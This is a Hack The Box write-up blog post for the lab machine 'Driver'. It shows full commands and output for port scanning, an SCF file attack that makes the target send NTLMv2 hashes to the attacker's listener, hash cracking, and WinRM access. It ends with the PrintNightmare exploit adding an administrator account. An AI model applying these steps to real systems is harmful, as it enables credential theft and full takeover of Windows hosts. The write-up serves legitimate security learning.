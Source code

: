```yaml
---
layout: post
current: post
cover: 'assets/images/driver/cover.png'
navigation: True
title: "Driver Write Up"
date: 2022-02-27 00:00:00
tags: [hackthebox, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![cover](/assets/images/driver/cover.png)

### Overview

[Driver](https://app.hackthebox.com/machines/Driver) is a easy box from [Hack The Box](https://hackthebox.com), demonstrating the impact of the Windows PrintNightmare vulnerability and also I learnt about SCF files. This was a new attack vector for me.

### Nmap

I deployed the machine and was given the target IP 10.10.11.106. I started a NMAP scan to check the available ports. 

{% highlight shell %}
└──╼ $sudo nmap -sC -sV -oA nmap/initial 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-27 17:20 GMT
Nmap scan report for 10.10.11.106
Host is up (0.020s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-28T00:20:49
|_  start_date: 2022-02-27T04:55:51

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.89 seconds
{% endhighlight %}

3 Ports open:

- 80 - HTTP - Microsoft IIS httpd 10.0
- 135 - MSRPC - Microsoft Windows RPC
- 445 - SMB - Microsoft Windows 7 - 10 microsoft-ds

I also ran a full port scan and found winrm to be open on port 5985.

{% highlight powershell %}
└──╼ $sudo nmap -p- -oA nmap/all_ports 10.10.11.106
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-27 17:25 GMT
Nmap scan report for 10.10.11.106
Host is up (0.026s latency).
Not shown: 65531 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
{% endhighlight %}

The web service is showing an unauthorized response however it could be leaking a username with the message "Please enter password for admin". 

### Enumeration

Before looking at the web service I tried enumerating SMB with various tools such as smbmap, smbclient and CrackMapExec however I had no joy.

```highlight
└──╼ $cme smb 10.10.11.106
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
┌─[daz@parrotos]─[~/Documents/HackTheBox/Driver]
└──╼ $smbmap -H 10.10.11.106
[!] Authentication error on 10.10.11.106
```

So I turned my attention to the web service. Navigating to the IP I did get a login prompt. I tried admin:admin and got in!

![login](/assets/images/driver/login.png)

Once logged in, I get a simple web page but an email address of 'support@driver.htb'. I updated my host file with 'driver.htb' just in case I need it later.

![homepage](/assets/images/driver/homepage.png)

The only link that works on the web page is 'Firmware Updates'. This page provides an upload function. I played around with this for such a long time, trying attacks like XSS, uploading PHP shells but nothing worked. 

![upload](/assets/images/driver/upload.png)

However re-reading the line:

> Select printer model and upload the respective firmware update to our file share. Our testing team will review the uploads manually and initiates the testing soon. 

I decided to change my google search to "http smb file share exploit" and found an article on using SCF files.

### Initial Access

The first article that returned was from Penetration testing lab https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/. After reading the article I created the file test.scf using the example they provide and changed the IP to my VPN IP.

```highlight
└──╼ $cat test.scf 
[Shell]
Command=2
IconFile=\\10.10.14.11\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

I started responder with the command '```sudo responder -I tun0```'.

Then uploaded the file using the web upload function and got a hit from responder

```highlight
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:87ea6d299d14fa32:ED6355EFB0444E974805B3FF0E0B9B26:0101000000000000803021AB042CD801AE67B0D5B0D050060000000002000800350054003400480001001E00570049004E002D0
0350032003700430037004C004F004F0030004300360004003400570049004E002D00350032003700430037004C004F004F003000430036002E0035005400340048002E004C004F00430041004C000300140035005400340048002E004C004F004
30041004C000500140035005400340048002E004C004F00430041004C0007000800803021AB042CD80106000400020000000800300030000000000000000000000000200000C974CDC12A32C5BFD81B375A1DECF3BF2FF300E27CB3440A6AC953C
7F84AACEA0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0031003100000000000000000000000000
```

I put the hash in to a file called 'hash' and used hashcat to crack it with the command ```hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt```.

Now I had a username and password I was able to use winrm to login. To login I used [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

```highlight
└──╼ $/opt/evil-winrm/evil-winrm.rb -u tony -i 10.10.11.106
Enter Password: 

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> 
```

### Priv Esc

Now I had a foothold, I did some basic enumeration of the box. Looking at the running services I could see the Windows print spooler service. 

```highlight
    381      23     5164      14448 ...12            1128 spoolsv
```

This made me think of the PrintNightmare exploit. I could also have used rpcdump to find this.

```highlight
└──╼ $rpcdump.py 10.10.11.106 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

To exploit this I used the [exploit](https://github.com/calebstewart/CVE-2021-1675) created by [Caleb Stewart](https://twitter.com/calebjstewart) and [John Hammond](https://twitter.com/_JohnHammond).

I used git to clone the repo in to my /opt directory.

{% highlight shell %}
└──╼ $sudo git clone https://github.com/calebstewart/CVE-2021-1675.git
Cloning into 'CVE-2021-1675'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (40/40), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 40 (delta 9), reused 37 (delta 6), pack-reused 0
Receiving objects: 100% (40/40), 131.12 KiB | 932.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
┌─[daz@parrotos]─[/opt]
└──╼ $cd CVE-2021-1675
┌─[daz@parrotos]─[/opt/CVE-2021-1675]
└──╼ $ls
CVE-2021-1675.ps1  nightmare-dll  README.md
{% endhighlight %}

Now using Evil-WinRM I can upload the powershell script and execute it.

{% highlight powershell %}
*Evil-WinRM* PS C:\Users\tony\Documents> upload /opt/CVE-2021-1675/CVE-2021-1675.ps1
Info: Uploading /opt/CVE-2021-1675/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1

                                                             
Data: 238080 bytes of 238080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module C:\Users\tony\Documents\CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
{% endhighlight %}

It worked! I canceled my current WinRM session and logged back in using the new credentials.

```highlight
*Evil-WinRM* PS C:\Users\tony\Documents> exit

Info: Exiting with code 0

┌─[daz@parrotos]─[~/Documents/HackTheBox/Driver]
└──╼ $/opt/evil-winrm/evil-winrm.rb -u adm1n -i 10.10.11.106
Enter Password: 

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\adm1n\Documents> cd C:/Users/Administrator/Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/26/2022   8:56 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
{{REDACTED}}
```

Thats the box, thanks for reading!

==========================================================================

Any comments or feedback welcome! You can find me on [twitter](https://twitter.com/dazbrownfield).

<a href="https://www.buymeacoffee.com/dazbrownfield" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

